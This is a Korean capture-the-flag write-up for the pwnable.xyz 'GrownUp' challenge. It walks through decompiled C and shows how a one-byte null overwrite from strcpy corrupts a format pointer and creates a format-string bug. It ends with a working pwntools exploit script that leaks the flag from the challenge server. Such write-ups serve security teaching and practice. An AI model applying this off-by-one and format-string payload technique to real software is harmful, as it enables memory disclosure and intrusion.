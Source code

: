 ```yaml
---
title: "[pwnable.xyz]GrownUp"
date: 2020-1-12
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


setup함수는 설정해주는데 format_ptr로 format들 주소 가르키고 있다.

```c
unsigned int setup()
{
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  signal(14, handler);
  format_ptr = &format1;
  format1 = '%';
  format2 = 's';
  format3 = '\n';
  return alarm(60u);
}
```

메인은 간단하다. buf가 y인지 입력받고 read로 128바이트 입력받고 strcpy로 usr라는 bss영역에 값을 넣어준다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *src; // ST08_8
  __int64 buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup();
  buf = 0LL;
  v6 = 0LL;
  printf("Are you 18 years or older? [y/N]: ", argv);
  *(&buf + (read(0, &buf, 16uLL) - 1)) = 0;
  if ( buf != 'y' && buf != 'Y' )
    return 0;
  src = malloc(132uLL);
  printf("Name: ", &buf);
  read(0, src, 128uLL);
  strcpy(usr, src);
  printf("Welcome ", src);
  printf(format_ptr, usr);                      // %s
  return 0;
}
```

strcpy할때 \0이 붙어서 1바이트 추가되는 것을 이용하면 된다. read할 때 128만큼 채워주면 뒤에 1바이트 \0이 붙는다. 그거 이용하면 된다. 그러면 format_ptr에서 0x0000000000601160에서 1바이트 더 써지니까 0x0000000000601100이 된다. 그래서 포인터가 0x0000000000601100 주소 가르키니까 포맷스트링이 깨진다. 여기서 FSB이용해서 풀면 된다.

[y/N] 입력받을 때 16만큼 입력받으니까 앞에 y로 맞춰서 return 0 안되도록 하고 data영역에 있는 flag주소를 넣어서 스택에 값을 써준다. 그리고 fsb로 %p로 flag 주소를 찾은 다음에 %s로 출력해주면 된다. 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./GrownUpRedist')
#p = process('./GrownUpRedist')
p = remote('svc.pwnable.xyz',30004)
flag= 0x0000000000601080

p.sendafter(':','Y'*8 + p64(flag))

payload = 'AAAAAAAA'
payload += '%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %s'
payload += 'A' * (0x80 - len(payload))
# print len(payload)
p.sendlineafter(':',payload)

p.interactive()
```

